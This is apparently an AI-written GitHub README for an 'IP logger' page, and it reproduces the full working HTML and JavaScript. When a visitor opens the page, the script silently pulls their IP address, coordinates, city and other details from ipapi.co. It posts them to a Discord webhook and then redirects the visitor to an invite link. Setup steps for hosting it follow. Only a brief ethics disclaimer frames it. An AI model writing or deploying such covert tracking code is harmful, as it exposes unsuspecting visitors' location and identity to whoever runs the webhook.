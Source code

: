 Creating a GitHub README file for the provided code involves explaining the purpose of the code, how it works, and any potential ethical concerns, since this code logs IP addresses and other personal data, which could be a privacy violation. Here's an example README file:

---

# IP Logger Redirect Script

This repository contains a script designed to log IP addresses and other information about users who visit a particular web page, and then redirects them to a Discord server.

## How It Works

1. **HTML Structure**: The HTML page displays a simple "HELLO" message and includes jQuery.
2. **JavaScript Execution**:
   - The script uses `ipapi.co` to get the visitor's IP address and other details.
   - This information is then sent to a Discord webhook.
   - Finally, the user is redirected to a specified Discord server.

## Code Explanation

### HTML Structure

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Redirecting...</title>
    <meta charset="utf-8" />
    <h1><center>Star the repo pls</center></h1>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.6.0/jquery.min.js" charset="utf-8"></script>
  </head>
  <body>
    <script type="text/javascript">
      // JavaScript code here
    </script>
  </body>
</html>
```

### JavaScript

```javascript
var WEBURL = " Webhook link here";

$.getJSON("https://ipapi.co/json/", function (data) {
   $.post(WEBURL, {
        content:
          "Ip : " +
          data.ip +
          "Latitude : " +
          data.latitude +
          "Longitude : " +
          data.longitude +
          "\nCity : " +
          data.city +
          "\nCountry : " +
          data.country_name +
          "\nTimeZone : " +
          data.timezone +
          "\nCurrency : " +
          data.currency_name +
          "\nLanguages : " +
          data.languages +
          "\nNumber-Code : " +
          data.country_calling_code +
          "\n@here",

        username: "M7's Logger",
        avatar_url: null,
      });
});

window.location.href = " INVITE LINK OR ANY OTHER LINK";
```

## Ethical Considerations

Please be aware that logging personal information without the user's consent is unethical and potentially illegal. This script collects and sends sensitive information such as IP address, location, and other details to a third party. Use this script responsibly and ensure compliance with privacy laws and regulations.

## Usage

To use this script, host the HTML file on a web server. When users visit the page, their information will be logged and they will be redirected to the specified Discord server.

## Disclaimer

This script is for educational purposes only. The author is not responsible for any misuse of the code. Always respect user privacy and obtain proper consent before collecting any personal information.

---

### Example Usage:

1. Clone the repository:

   ```sh
   git clone https://github.com/yourusername/ip-logger-redirect.git
   ```

2. Host the HTML file on your preferred web server.

3. Update the `WEBURL` variable in the JavaScript code with your Discord webhook URL.

4. Access the hosted HTML page. The script will log user information and redirect them.

---

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

